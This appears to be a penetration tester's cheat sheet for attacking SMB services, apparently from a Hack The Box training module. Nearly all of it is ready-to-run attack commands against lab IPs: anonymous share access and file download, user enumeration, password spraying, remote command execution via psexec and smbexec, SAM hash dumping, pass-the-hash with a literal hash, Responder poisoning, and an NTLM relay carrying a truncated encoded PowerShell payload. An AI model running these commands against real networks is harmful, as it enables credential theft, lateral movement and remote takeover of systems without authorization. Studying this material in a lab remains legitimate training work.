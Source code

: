 Enumeration
```shell
sudo nmap 10.129.14.128 -sV -sC -p139,445
```

Anonymous Authentication
```shell
smbclient -N -L //10.129.14.128
smbmap -H 10.129.14.128
smbmap -H 10.129.14.128 -r notes # notes atinda bir folde axtariririq
```

Download the folder or file
```shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

Remote Procedure Call (RPC)
```shell
rpcclient -U'%' 10.10.110.17
rpcclient $> enumdomusers
```

```shell
./enum4linux-ng.py 10.10.11.45 -A -C
```

Protocol Specifics Attacks
```shell
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

Impacket PsExec
```shell
impacket-psexec administrator:'Password123!'@10.10.110.17
```

CrackMapExec
```shell
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

Enumerating Logged-on Users
```shell
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

Extract Hashes from SAM Database
```shell
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

Pass-the-Hash (PtH)
```shell
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

Forced Authentication Attacks
```shell
responder -I <interface name>
```

```shell
nijatmansimov@htb[/htb]$ cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

```shell
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...
```
























